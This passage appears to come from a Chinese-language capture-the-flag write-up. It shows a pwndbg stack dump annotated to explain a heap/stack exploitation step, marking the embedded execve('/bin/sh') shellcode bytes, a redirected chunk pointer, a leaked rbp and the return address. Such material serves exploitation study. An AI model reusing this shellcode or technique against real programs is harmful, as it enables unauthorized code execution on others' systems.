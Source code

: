 ```python
```

```c
#向栈中写入payload和shellcode，结果如下：
#&rbp-90==0x7fffffffdd10
pwndbg>  x/50gx 0x7fffffffdc98
0x7fffffffdc98: 0x0000000000400824  0x000000000000000e
0x7fffffffdca8: 0x0000000000000000  0x00007fffffffdcd0
0x7fffffffdcb8: 0x00000000004009e0  0x0000000000000000
0x7fffffffdcc8: 0x00007ffff7ffe168  0x00007fffffffdd20
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''
#payload更改的内容：
0x7fffffffdcd8: 0x0000000000400a8c  0x69622fbb48f63100 #shellcode_start
    								#buf从这里开始
0x7fffffffdce8: 0x54535668732f2f6e	0x050fd231583b6a5f #shellcode_end
0x7fffffffdcf8: 0x0000000000000000  0x0000000000000000
0x7fffffffdd08: 0x0000000000000041  0x0000000000000000
    								#输入的id内容
									#此内容所在的地址为：0x7fffffffdd10
0x7fffffffdd18: 0x00007fffffffdd10  0x00007fffffffdd80
    			#ptr现在被修改为指向0x00007fffffffdd10
    			#也就是说堆块的地址被修改为：0x00007fffffffdd00
'''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''''    
0x7fffffffdd28: 0x0000000000400b34  0x00007ffff7dd18e0
0x7fffffffdd38: 0x00007ffff7fdc700  0x0000000000000003
0x7fffffffdd48: 0x00000000000001c8  0x6161616161616161 
    			#输入的id大小		 #name从这里开始
0x7fffffffdd58: 0x6161616161616161  0x6161616161616161
0x7fffffffdd68: 0x6161616161616161  0x6161616161616161
0x7fffffffdd78: 0x6161616161616161  0x00007fffffffdda0 
    								#printf会泄露的内容：&rbp
0x7fffffffdd88: 0x0000000000400b59  0x00007fffffffde88
0x7fffffffdd98: 0x0000000100000000  0x0000000000400b60
    								#rbp，内容所在的地址为：0x7fffffffdda0
0x7fffffffdda8: 0x00007ffff7a2d840  0x0000000000000001
    			#d840是main函数的返回地址
0x7fffffffddb8: 0x00007fffffffde88  0x00000001f7ffcca0
0x7fffffffddc8: 0x0000000000400b36  0x0000000000000000
0x7fffffffddd8: 0x35e7fe72fd004534  0x00000000004006b0
0x7fffffffdde8: 0x00007fffffffde80  0x0000000000000000
0x7fffffffddf8: 0x0000000000000000  0xca18010d50a04534
0x7fffffffde08: 0xca1811b744304534  0x0000000000000000
0x7fffffffde18: 0x0000000000000000  0x0000000000000000
Pwndbg> 
```

向栈中写入payload之前会进行malloc，malloc之后ptr指针指向的地址被修改为0x7fffffffdd10，但是进行strcpy有\x00截断，因此向栈中写入的payload并不会被破坏。

> malloc_chunk_start_addr=0x00007fffffffdd00
>
> 现在指针ptr指向：0x00007fffffffdd10
>
